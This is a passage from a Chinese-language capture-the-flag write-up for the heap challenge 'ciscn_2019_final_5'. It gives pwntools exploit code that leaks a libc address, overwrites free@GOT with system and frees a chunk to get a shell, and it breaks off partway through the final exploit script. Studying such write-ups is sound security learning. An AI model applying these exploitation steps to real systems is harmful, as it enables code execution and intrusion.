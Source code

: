 ![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307161121.png)

看下数组：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307161223.png)



然后泄露并计算system的地址，再看下数组：

```python
# call del_note to leak __libc_atoi address and calculate __libc_system address
io.sendlineafter("your choice: ", '2')
io.sendlineafter("index: ", '3')
msg = io.recvline()
show_qword_0x6020e0() # show array
# edit_note, change free@got to __libc_system
atoi_addr = u64(msg[8:-1] + b'\x00\x00')
LOG_ADDR('atoi_addr', atoi_addr)
system_addr = atoi_addr + 0xedc0
edit_note(10, p64(system_addr) * 2)
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307161418.png)

注意：要访问`chunk G`的话，得输入`idx`为`0xa`

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307161456.png)

注意，这个时候`0x6020110`处的会被置空：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307161600.png)

修改成功：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307161811.png)

最后只需要`free chunk E`：

```python
# get shell
io.sendlineafter("your choice: ", '2')
io.sendlineafter("index: ", '4')
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210307161945.png)



#### 最终exp

```python
from pwn import *

io = process('./ciscn_2019_final_5')

# x[0]存储低3位和索引的或值，x[1]以及真实的chunk地址
qword_0x6020e0 = [[0, 0]] * 17

def show_qword_0x6020e0():
    '''如果RealPtr（真实的chunk地址）和GetPtr（计算取出来的chunk地址）不一样的话，用绿色打印！'''
    global qword_0x6020e0
    addr = 0x6020e0
    for x in qword_0x6020e0:
        if x[0] == 0:
            continue
        fstr = 'Addr:{}  StorePtr:{}  RealPtr:{}  GetPtr:{}  GetIdx:{}'.format(hex(addr), hex(x[0]), hex(x[1]), hex(x[0] & 0xfff0),hex(x[0] & 0xf))
        if (x[1]) != (x[0] & 0xfff0):
```